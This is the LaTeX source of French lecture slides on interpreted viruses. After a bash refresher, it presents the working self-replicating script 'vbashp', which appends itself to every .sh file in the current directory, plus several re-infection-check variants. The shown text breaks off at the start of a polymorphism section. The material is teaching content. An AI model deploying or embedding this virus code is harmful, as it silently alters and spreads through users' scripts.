%\documentclass[landscape]{slides}
\documentclass{beamer}
\usepackage{beamerfoils}
\usetheme{Pittsburgh}
%\usepackage[accumulated]{beamerseminar}
                                % remove ``accumulated'' option
                                % for original behaviour
%\usepackage{beamerthemeclassic}
\usepackage{ulem}
%\usepackage{beamerthemesplit}

%\usepackage{beamerthemeshadow}

%\usepackage{beamerthemeplain}
%\usepackage{times}
\usepackage{colortbl}

%\usepackage{lslide}
\def\emptyline{\vspace{10pt}}
\usepackage{amssymb}
%\usepackage{french}
%\usepackage[latin1]{inputenc}
\usepackage[utf8]{inputenc}
%\usepackage[T1]{fontenc}
\usepackage[]{color}
%\usepackage[pdftex]{color}
%\usepackage[]{colorlslide,epsfig}
%\usepackage{amsfonts,stmaryrd}
\usepackage{epsfig}

\usepackage{graphicx,array}
\usepackage{tikz}
\usetikzlibrary{shadows.blur}
\usepackage{amsmath}%,amsthm}
\usepackage{hyperref}
\usepackage{pifont}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{framed}
\usepackage{tcolorbox}

%\renewcommand{\frame}{\end{slide}   \begin{slide}}
%\newcommand{\frametitle}{\centerline}


%\usepackage{beamerthemeshadow}
\usepackage{graphicx}
%\usepackage{beamerthemesplit}

%% Environnement terminal pour les exemples de code
%\definecolor{shadecolor}{RGB}{180,180,180}
\definecolor{shadecolor}{RGB}{0,0,0}
\newenvironment{terminal}{\color{white}\begin{snugshade*}}
{\end{snugshade*}\color{black}}

\definecolor{bluesky}{rgb}{0.8,0.95,1}
\definecolor{ggreen}{rgb}{0.4,0.45,5}

%%%%%%%%%%%%%%%%%% ENVIRONNEMENTS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newtheorem{deft}{Définition}
%\newtheorem{theorem}{Théorème}
\newtheorem{proposition}{Proposition}
\newtheorem{exemple}{Exemple}
\newtheorem{postulat}{Postulat}


%%%%%%%%%%%%%%%%%% COULEURS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{encre}{rgb}{0.2, 0, 0.4}
\definecolor{lightblue}{rgb}{0.3,0.35,5}

\newcommand{\red}[1]{\only<#1>{\color{red}}}
\newcommand{\green}[1]{\only<#1>{\color{green}}}
\newcommand{\lra}{\leftrightarrow}
\newcommand{\Fd}{\mathbb{F}}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\newcommand{\blue}[1]{\textit{\color{blue}#1}}

%%   for the headline etc.
\renewcommand\normalcolor{\color{coltitle}}

\setbeamercolor{block body}{bg=bluesky}

%%   for the background
%\pagecolor{grisbleu}
%%   for the text
\color{encre}

%%%%%%%%%%%%%%% voir le style ....
 \beamertemplatenavigationsymbolsempty
\beamertemplatefootempty
%\beamertemplatefootframenumber
\setbeamertemplate{footline}[frame number]


\title{Virus Interprétés}
\date{Février 2026}

\AtBeginSection[]
{
\begin{frame}
\frametitle{Plan}
\tableofcontents[currentsection,sectionstyle=show/shaded,subsectionstyle=show/show/hide]
\end{frame}
}

\AtBeginSubsection[]
{
\begin{frame}
\frametitle{Plan}
\tableofcontents[currentsubsection,sectionstyle=show/shaded,subsectionstyle=show/shaded/hide]
\end{frame}
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\titlegraphic{
\centering

\includegraphics[width=4cm]{../../assets/images/logos/logo-upvd.png}\\[0.3cm]

\includegraphics[width=7cm]{figures/bash-virus.jpg}
}


\begin{document}

\maketitle


\section{Bourne Again Shell - Rappel}

\begin{frame}
\frametitle{Bourne Again Shell - Rappel}


\begin{itemize}
\item Un langage interprété est exécuté instruction après instruction par un interpréteur de commande.
\item Il n'y a pas forcément utilisation de fichier exécutable.
\item Nous utiliserons ici le BASH (Bourne Again Shell) utilisé sous Linux.
\end{itemize}
\end{frame}



\begin{frame}[fragile]
\frametitle{Variables}
\enlight{Variable :} une variable est un identifiant qui représente une valeur (ici chaîne de caractères ou valeur numérique) stockée en mémoire.
\begin{terminal}
\begin{verbatim}
> c=3
> echo $c
3
\end{verbatim}
\end{terminal}
Par contre
\begin{terminal}
\begin{verbatim}
> c=3
> echo c
c
\end{verbatim}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Chaîne de caractères}

Pour former une chaîne de caractères on utilise
\begin{itemize}
\item Les doubles quotes " : les caractères spéciaux (\$,\{,[,\ldots) sont actifs
  \begin{terminal}
\begin{semiverbatim}
> c=3
> echo "c vaut \$c"
c vaut 3
\end{semiverbatim}
\end{terminal}
\item Le simple quote : les caractères spéciaux sont inactifs
\begin{terminal}
\begin{semiverbatim}
> c=3
> echo 'c vaut \$c'
c vaut \$c
\end{semiverbatim}
\end{terminal}
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Variables d'environnement}
Des variables sont déjà définies dans Unix
\begin{itemize}
\item \verb|$USER| = nom de l'utilisateur courant
\item \verb|$PWD| = répertoire courant
\item \verb|$UID| =  numéro identifiant utilisateur
\item \verb|$PATH| =  chemins où chercher les exécutables
\item \verb|$PRINTER| =  nom de l'imprimante par défaut
\item etc. (cf. le Bash guide for beginner)
\end{itemize}
Pour obtenir la liste
\begin{terminal}
\begin{scriptsize}
\begin{verbatim}
> env
SSH_AGENT_PID=2160
GPG_AGENT_INFO=/run/user/clegrand/keyring-mdCATW/gpg:0:1
TERM=xterm
SHELL=/bin/bash
XDG_SESSION_COOKIE=0fa2a2b6a4363c6cab497b6350eb2d66-1379405595.671295-2014846328
WINDOWID=58720260
...
\end{verbatim}
\end{scriptsize}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Variables}
\begin{itemize}
\item Toute nouvelle variable n'est définie que dans le shell dans lequel on travaille.
\item La commande \texttt{\bf export} étend cette définition aux shells fils.
\end{itemize}
{\color{blue} Exemple :}
\begin{terminal}
\begin{verbatim}
> A="coucou"
> B="bye"
> export B
> echo $A $B
coucou bye
> bash # On entre dans un shell fils
> echo $A
> echo $B
bye
\end{verbatim}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Arithmétique}
\begin{itemize}
\item On peut dans un bash effectuer de l'arithmétique élémentaire.
\item Par défaut une expression arithmétique est une chaîne de caractères.
\item Pour forcer l'exécution des calculs on utilise
\begin{center}
\texttt{\$(( $<$exp\_arith$>$ ))}.
\end{center}
\item Exemple :
\begin{terminal}
\begin{semiverbatim}
>a=3
>b=\$a+4
>echo b
3+4
>b=\$(( \$a+4))
>echo b
7
\end{semiverbatim}
\end{terminal}
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Récupération du résultat d'une commande}

Pour récupérer le résultat (sortie standard) d'une commande on utilise la syntaxe
\begin{center}
\texttt{var=\$(commande arg1 arg2 \ldots argN)}
\end{center}

{\color{blue} Exemple :}
\begin{terminal}
\begin{verbatim}
> a=$(whoami)
> echo $a
clegrand
> b=$(date)
> echo "Aujourd'hui nous sommes le $b"
Aujourd'hui nous sommes le Tue Sep 17 14:30:40 CEST 2013
\end{verbatim}
\end{terminal}
\end{frame}



\begin{frame}[fragile]

\frametitle{Script simple}
Un script peut d'abord se résumer en une suite de commandes

\begin{block}{}

\begin{verbatim}
#!/bin/bash
commande1 liste_params
commande2 liste_params
...
commanden liste_params
\end{verbatim}

\end{block}
Dans la 1ère ligne \verb|/bin/bash| donne le chemin de l'interpréteur à utiliser pour exécuter le fichier.
\end{frame}



\begin{frame}[fragile]
\frametitle{Exemple de bonjour.sh}
\begin{block}{}
\begin{verbatim}
#!/bin/bash
#Hello world
echo "Bonjour $USER"
echo "Tu te trouves dans le repertoire $PWD"
\end{verbatim}
\end{block}

Exécution bonjour.sh. On met le droit d'exécution au fichier \verb|bonjour.sh|
\begin{terminal}
\begin{verbatim}
> chmod u+x bonjour.sh
\end{verbatim}
\end{terminal}
On exécute
\begin{terminal}
\begin{verbatim}
> ./bonjour.sh
Bonjour toto
Tu te trouves dans le repertoire /home/toto/bin/
\end{verbatim}
\end{terminal}
\end{frame}



\begin{frame}[fragile]
\frametitle{Paramètres}
On peut passer des paramètres à l'exécution d'un script
\begin{itemize}
\item \verb|$i| (ou \verb|${i}| si $i > 10$) est égal au ième argument
\item \verb|$#| est égal au nombre d'arguments
\item \verb|$*| est égal à la liste des arguments
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Script parametres.sh}
Le fichier \verb|parametres.sh| contient
\begin{scriptsize}
\begin{block}{parametres.sh}
\begin{verbatim}
#!/bin/bash
#utilisation des parametres
echo "$0 est le nom de la commande"
echo "$1 est le premier argument"
echo "$2 est le second argument"
echo "etc."
echo "$# est le nombre d'arguments"
echo "\"$*\" est la liste des arguments"
\end{verbatim}
\end{block}
\end{scriptsize}

À l'exécution on obtient
\begin{scriptsize}
\begin{terminal}
\begin{verbatim}
> chmod u+x parametres.sh
>./parametres.sh un deux trois
./parametres.sh est le nom de la commande
un est le premier argument
deux est le second argument
etc
4 est le nombre d'arguments
"un deux trois" est la liste des arguments
\end{verbatim}
\end{terminal}
\end{scriptsize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Tableaux}
  \begin{itemize}
  \item  Les tableaux se déclarent avec des valeurs entre parenthèses.
  \begin{terminal}
\begin{verbatim}
> Tableau=("un" "deux" "trois")
>echo ${Tableau[2]}
trois
\end{verbatim}
\end{terminal}
\item On peut ajouter à la fin les valeurs une à une
  \begin{terminal}
\begin{verbatim}
>Tableau=()
>Tableau+=("un")
>Tableau+=("deux")
>Tableau+=("trois")
> echo "elt0=${Tableau[0]}, elt2=${Tableau[2]}"
elt0=un, elt2=trois
\end{verbatim}
\end{terminal}
\end{itemize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Tableaux (suite)}
  \begin{itemize}
  \item  On peut modifier l'élément d'un indice donné
      \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
> Tableau=("un" "deux" "trois")
> Tableau[1]="2"
> echo ${Tableau[@]}
un 2 trois
\end{verbatim}
  \end{terminal}
    \end{scriptsize}
  où \texttt{Tableau[@]} correspond au tableau en entier.
\item Pour parcourir les valeurs d'un tableau on peut faire :
  \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
Tableau=("un" "deux" "trois")
for val in ${Tableau[@]}
do
  echo "Valeur du tableau : $val"
done
\end{verbatim}
  \end{terminal}
  \end{scriptsize}
\item Pour afficher la taille du tableau :
      \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
> Tableau=("un" "deux" "trois")
> echo "${#Tableau[@]}"
3
\end{verbatim}
      \end{terminal}
        \end{scriptsize}
  \end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Structures de contrôle}
\begin{itemize}
\item Expression conditionnelle : \verb|if then else fi|
\item Boucle \verb|for do done, while, until|
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Expression Booléenne}
Une expression booléenne s'évalue avec la commande \verb|test| ou en mettant l'expression entre crochets \verb|[]|
\begin{scriptsize}
\begin{center}
\begin{tabular}{|c|c|}
\hline
\verb|[ -f FILE ]| & True si FILE existe \\
\hline
\verb|[ -r FILE ] | & True si FILE existe et est accessible en lecture \\
\hline
\verb|[ FILE1 -nt FILE2 ]| & True si FILE1 est plus récent que FILE2 \\
\hline
Etc.. & cf. le bash user guide\\
\hline
[ Arg1 -eq Arg2 ] & True si Arg1 est égal à Arg2 \\
\hline
[ Arg1 -ne Arg2 ] & True si Arg1 est différent de Arg2 \\
\hline
\hline
[ Arg1 -gt Arg2 ] & True si Arg1 est supérieur strict à Arg2 \\
\hline
[ Arg1 -ge Arg2 ] & True si Arg1 est supérieur ou égal à Arg2 \\
\hline
[ string1 != string2 ] & True si la chaîne string1 est différente de string2 \\
\hline
Etc.. & cf. le bash user guide\\
\hline
\end{tabular}
\end{center}
\end{scriptsize}

\end{frame}


\begin{frame}[fragile]
  \frametitle{Exemple de if, verif.sh}
  \begin{block}{}
\begin{verbatim}
#!/bin/bash
echo "Ce script vérifie l'existence de /var/log/messages"
echo "Vérifications.."
if test -f /var/log/messages
then
  echo "/var/log/messages existe"
fi
echo "\n done"
\end{verbatim}
\end{block}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Exemple de for, nb\_fichier\_lecture.sh}
  \begin{block}{\texttt{nb\_fichier\_lecture.sh}}
\begin{verbatim}
#!/bin/bash
echo "Ce script compte le nombre de fichiers"
echo "accessibles en lecture"
nombre=0
for nom in $(ls)
do
  if [ -r $nom ]
  then
    nombre=$(($nombre+1))
  fi
done
echo "Il y a exactement $nombre fichiers"
echo "accessibles en lecture"
\end{verbatim}
\end{block}
\end{frame}




\begin{frame}[fragile]
\frametitle{Quelques commandes utiles}
Filtres :
\begin{itemize}
\item  \texttt{\bf grep} sélectionne des lignes contenant un motif.
\item \texttt{\bf head} sélectionne les premières lignes d'un fichier.
\item \texttt{\bf tail} sélectionne les dernières lignes d'un fichier.
\end{itemize}

Découpage :
\begin{itemize}
\item \texttt{\bf cut} découpe une ligne à partir d'un séparateur.
\end{itemize}

Autre :
\begin{itemize}
\item \texttt{\bf cat} affiche le contenu d'un fichier.
\item \texttt{\bf tr} traduit ou substitue des caractères par d'autres.
\end{itemize}

\end{frame}


\begin{frame}[fragile]
  \frametitle{Exemple : cat, head, tail}
  \begin{terminal}
\begin{verbatim}
> cat coucou.txt
coucou1
coucou2
...
coucou9
coucou10
> head -n 4 coucou.txt
coucou1
coucou2
coucou3
coucou4
> head -n 4 coucou.txt | tail -n 1
coucou4
\end{verbatim}
\end{terminal}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Exemple : head, tail pour sélectionner des caractères}
  \begin{terminal}
        \begin{scriptsize}
\begin{verbatim}
> echo "abcdefghijklmnopqrstuvwxyz" | head -c 3
abc
> echo "abcdefghijklmnopqrstuvwxyz" | tail -c 3
xyz
> echo "abcdefghijklmnopqrstuvwxyz" | head -c 3 | tail -c 1
c
\end{verbatim}
\end{scriptsize}
\end{terminal}

\end{frame}



\begin{frame}[fragile]
\frametitle{Autre méthode pour sélectionner des caractères}
 \begin{terminal}
        \begin{scriptsize}
\begin{verbatim}
> ch="abcdefghijk"
> echo ${ch:3}  # selectionne les caracteres a partir de l'indice 3
defghijk
> echo ${ch:3:6} # selection les caracteres entre l'indice 3 et 6
defghi
\end{verbatim}
\end{scriptsize}
\end{terminal}


\end{frame}

\begin{frame}[fragile]

  \frametitle{Exemple pour tr}
  \begin{itemize}
  \item On substitue une minuscule par une majuscule
    \begin{terminal}
    \begin{scriptsize}
\begin{verbatim}
> echo "bonjour il fait beau" | tr "abc...vwxyz" "ABC...VWXYZ"
BONJOUR IL FAIT BEAU
\end{verbatim}
    \end{scriptsize}
    \end{terminal}
  \item On substitue les retours à la ligne par des "@" :
    \begin{terminal}
      \begin{scriptsize}
\begin{verbatim}
> cat hello.txt
Hello,
Today is a nice day
the sky is blue
and
the sun is shinning
>  cat hello.txt | tr '\n' '@'
Hello,@Today is a nice day@the sky is blue@and@the sun is shinning@
\end{verbatim}
      \end{scriptsize}
      \end{terminal}
  \end{itemize}
  \verb|tr -s " " | remplace les répétitions d'espaces consécutifs par un seul.
\end{frame}


\begin{frame}[fragile]
  \frametitle{Exemple pour \texttt{cut}}
  Avec \verb|-d| on spécifie le séparateur et avec \verb|-fn| on choisit de n'afficher que le \verb|n|-ème terme de chaque ligne.
  \begin{terminal}
    \begin{scriptsize}
\begin{verbatim}
$ ls -l | cut -f1
total 12
drwxrwxr-x 2 clegrand clegrand 4096 oct.   3  2024 dir1
drwxrwxr-x 3 clegrand clegrand 4096 oct.   3  2024 dir2
-rw-rw-r-- 1 clegrand clegrand    8 avril 23 22:01 fic1.txt
-rw-rw-r-- 1 clegrand clegrand    0 avril 23 22:01 fic2.txt
clegrand@clegrand-laptop:~/tmp$ ls -l | cut -d" " -f1
total
drwxrwxr-x
drwxrwxr-x
-rw-rw-r--
-rw-rw-r--
\end{verbatim}
    \end{scriptsize}
  \end{terminal}
\end{frame}




\section{Le virus \texttt{vbashp} et quelques améliorations}


\begin{frame}[fragile]
\frametitle{Le virus \texttt{vbashp}}
\begin{block}{\texttt{vbashp}}
\begin{semiverbatim}
\alert<2>{for i in *.sh;}
\alert<2>{do \# pour tous les fichiers avec l'extension sh}
\alert<3>{if test  "./\$i" != "\$0"; }
\alert<3>{   then \# si cible != fichier infectant en cours }
\alert<4>{   tail -n 5 \$0 | cat >> \$i; \# ajout code du virus }
\alert<3>{fi}
\alert<2>{done}
\end{semiverbatim}
\end{block}



\begin{itemize}
\item<2-> \alert<2>{ Il infecte tous les fichiers portant l'extension \texttt{.sh.}}
\item<3-> \alert<3>{ Il n'infecte pas le script infectant.}
\item<4-> \alert<4>{ Il fonctionne par ajout de code en fin de fichier.}
\item<5-> Ce virus a une taille de 91 octets.
\item<6-> L'ajout en fin de fichier ne requiert pas de fichier temporaire.
\item<7-> À l'exécution d'un \texttt{.sh} infecté le code viral est exécuté en dernier.
\end{itemize}
\end{frame}



\begin{frame}
\frametitle{Caractéristiques du virus \texttt{vbashp}}
\begin{itemize}
\item L'action est { \color{blue} limitée au répertoire courant.}
\item Le virus n'est { \color{blue}pas furtif} : on peut le repérer simplement par son nom.
\item Le virus n'est { \color{blue} pas polymorphe} : la totalité du code peut servir de signature.
\item Le virus ne fait { \color{blue}pas de lutte contre la surinfection}.
\item Le virus n'a  { \color{blue}pas de charge finale}.
\end{itemize}
\end{frame}


\begin{frame}
\frametitle{Amélioration du virus \texttt{vbashp}}%

Nous allons effectuer les améliorations suivantes du virus \texttt{vbashp} %%%%%

\begin{itemize}
\item Une lutte contre la surinfection.
\item Des variantes un peu améliorées de cette lutte contre la surinfection.
\item Lutte anti-antivirale : le polymorphisme.
\end{itemize}
\end{frame}



\subsection{Lutte contre la surinfection}

\begin{frame}
\frametitle{Lutte contre la surinfection}
\begin{itemize}
\item Le virus doit vérifier qu'il n'a pas déjà infecté le fichier cible considéré.
\item Pour cela il doit rechercher une signature qui est spécifique du virus.
\item La signature doit être discriminante : la probabilité de non détection d'une infection antérieure doit être la plus faible possible.
\item La signature doit être non incriminante : la probabilité de fausse alarme doit être la plus faible possible.
\end{itemize}
\end{frame}




\begin{frame}[fragile]
\frametitle{Stratégie 1 - Utilisation d'une chaîne spécifique}

\begin{itemize}
\item Insérer une chaîne de caractères spécifique dans le code.


Par exemple {\color{blue} \texttt{ixYT6DFArwz32@oi7}. }


\item Il suffira alors de rechercher cette chaîne dans le fichier cible
\begin{semiverbatim}
if [ -z \$(cat \$i | grep "ixYT6DFArwz32@oi7") ]
then
     \#\# infection
fi
\end{semiverbatim}
\item Le défaut c'est que la chaîne \texttt{ixYT6DFArwz32@oi7} rend le virus vulnérable à une action antivirale.
\end{itemize}
\end{frame}





\begin{frame}[fragile]
  \frametitle{Stratégie 2 - Variante : le code comme signature}
  Il faut comparer la fin du fichier infectant :
  \begin{itemize}
  \item avec tail on sélectionne la fin,
    \item avec  \texttt{echo -n} on supprime les retours à la ligne.
  \end{itemize}

\begin{block}{\texttt{vbashp-surinf-tail.sh}}    \begin{small}
\begin{semiverbatim}
L=11 # nombre de lignes du code viral
for f in *.sh
do
    \alert{HOST=\$(echo -n \$(tail -n \$L \$f))}
    \alert{VIR=\$(echo -n \$(tail -n $L \$0))}
    if [ \alert{"\$HOST" != "\$VIR"} ]
    then
        \# infection du fichier f
        tail -n \$L \$0 >> $f
    fi
done
\end{semiverbatim}\end{small}\end{block}
\end{frame}

\begin{frame}
  \frametitle{Stratégie 3 - Exécution test}


Pour chaque cible :
\begin{itemize}
\item Le virus isole les dernières lignes contenant potentiellement le virus.
\item Il lance ensuite le code correspondant avec l'argument \texttt{"test"}.
\item L'exécution avec cet argument provoque l'affichage de \texttt{"test"}.
  \item L'analyse de l'affichage du code exécuté nous dit s'il est infecté ou pas.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Stratégie 3  - Exemple}
  \begin{block}{vbashp-surinf-test.sh}
    \begin{scriptsize}
\begin{verbatim}
L=23 # nombre de lignes de code viral
if [ ! -z $1 ] &&  [ $1 = "test" ]
   then
       echo "test"   # affiche test quand c'est deja infecte
       exit 0
fi
touch test.sh # fichier temporaire de test de surinfection
chmod u+x test.sh
for f in *.sh
do
    if [ $f != "test.sh" ]
    then
       # gestion de la surinfection
       tail -n $L $f > test.sh # on recupere le code viral
       t=$(echo -n $(./test.sh "test")) # execution test
       if [ "$t" != "test" ]
       then
           # infection
           tail -n $L $0 >> $f
       fi
    fi
done
rm test.sh
\end{verbatim}
 \end{scriptsize}

  \end{block}
\end{frame}





\subsection{La lutte anti-antivirale : le polymorphisme}



\begin{frame}
\frametitle{Le virus \texttt{vbashp1.sh}}
Nous allons présenter le code \texttt{vbashp-polymorph.sh} qui procède comme suit :

\begin{center}
\only<1>{
\includegraphics[width=8cm]{figures/process-vbash1-init}}
